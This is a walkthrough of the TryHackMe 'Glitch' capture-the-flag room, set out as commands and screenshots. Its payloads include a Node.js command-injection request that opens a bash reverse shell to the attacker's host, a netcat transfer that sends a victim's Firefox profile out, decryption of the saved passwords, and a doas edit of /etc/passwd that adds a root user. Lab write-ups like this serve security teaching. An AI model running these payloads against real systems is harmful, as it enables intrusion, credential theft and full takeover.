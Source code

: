 # GLITCH

**Room Link:** [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (325).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>







### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (342).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (326).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (328).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (329).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

Looking into api directory we find a items page

**Kali**

```
gobuster dir -u http://$VICTIM/api -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (341).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (330).png" alt=""><figcaption></figcaption></figure>



Change the request from GET to POST and it gives an interesting message

<figure><img src="../../.gitbook/assets/image (331).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (332).png" alt=""><figcaption></figcaption></figure>



Running the below shows it is vulnerable

<figure><img src="../../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
nc -lvnp
```

**Burp**

```
POST /api/items?cmd=require("child_process").exec('bash+-c+"bash+-i+>%26+/dev/tcp/$KALI/1337+0>%261"') HTTP/1.1
Host: 10.10.22.153
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=value
Upgrade-Insecure-Requests: 1


```



<figure><img src="../../.gitbook/assets/image (334).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

## Lateral Movement

**Victim**

```
tar -cvf backup.tar.gz .firefox/
```

### Netcat

**Kali(receiving)**

```
nc -l -p 1234 > backup.tar.gz
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < backup.tar.gz
```



**Kali**

```
tar xvf backup.tar.gz 
git clone https://github.com/unode/firefox_decrypt.git
python3.9  firefox_decrypt/firefox_decrypt.py .firefox/
```

<figure><img src="../../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
su v0id
Password: love_the_void
```

<figure><img src="../../.gitbook/assets/image (337).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
find / -perm -u=s -type f 2> /dev/null
```

<figure><img src="../../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
/usr/local/bin/doas -u root cat /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

I used doas to read the passwd file, make a backup called passwd.old just in case it broke and passwd.new and added a new user

**Victim**

```
/usr/local/bin/doas -u root cat /etc/passwd
vi /tmp/passwd.new
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

/usr/local/bin/doas -u root cp /tmp/passwd.new /etc/passwd
su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (340).png" alt=""><figcaption></figcaption></figure>







